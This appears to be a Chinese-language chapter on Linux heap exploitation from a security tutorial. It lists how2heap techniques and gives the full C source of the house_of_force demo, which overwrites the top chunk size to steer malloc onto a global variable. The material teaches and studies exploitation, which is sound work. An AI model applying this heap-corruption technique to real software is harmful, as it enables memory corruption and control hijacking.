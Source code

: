 # 3.1.8 Linux 堆利用（下）

- [how2heap](#how2heap)
  - [house_of_force](#house_of_force)
  - [unsorted_bin_into_stack](#unsorted_bin_into_stack)
  - [unsorted_bin_attack](#unsorted_bin_attack)
  - [house_of_einherjar](#house_of_einherjar)
  - [house_of_orange](#house_of_orange)
- [参考资料](#参考资料)


[下载文件](../src/Others/3.1.6_heap_exploit)

## how2heap
#### house_of_force
```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main() {
    fprintf(stderr, "We will overwrite a variable at %p\n\n", bss_var);

    intptr_t *p1 = malloc(0x10);
    int real_size = malloc_usable_size(p1);
    memset(p1, 'A', real_size);
    fprintf(stderr, "Let's allocate the first chunk of 0x10 bytes: %p.\n", p1);
    fprintf(stderr, "Real size of our allocated chunk is 0x%x.\n\n", real_size);

    intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size);
    fprintf(stderr, "Overwriting the top chunk size with a big value so the malloc will never call mmap.\n");
    fprintf(stderr, "Old size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));
    ptr_top[0] = -1;
    fprintf(stderr, "New size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));

    unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*2 - (unsigned long)ptr_top;
    fprintf(stderr, "\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size, we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
    void *new_ptr = malloc(evil_size);
    int real_size_new = malloc_usable_size(new_ptr);
    memset((char *)new_ptr + real_size_new - 0x20, 'A', 0x20);
    fprintf(stderr, "As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr);

    void* ctr_chunk = malloc(0x30);
    fprintf(stderr, "malloc(0x30) => %p!\n", ctr_chunk);
    fprintf(stderr, "\nNow, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.\n");

    fprintf(stderr, "old string: %s\n", bss_var);
    strcpy(ctr_chunk, "YEAH!!!");
    fprintf(stderr, "new string: %s\n", bss_var);
}
```
```
$ gcc -g house_of_force.c
$ ./a.out 
```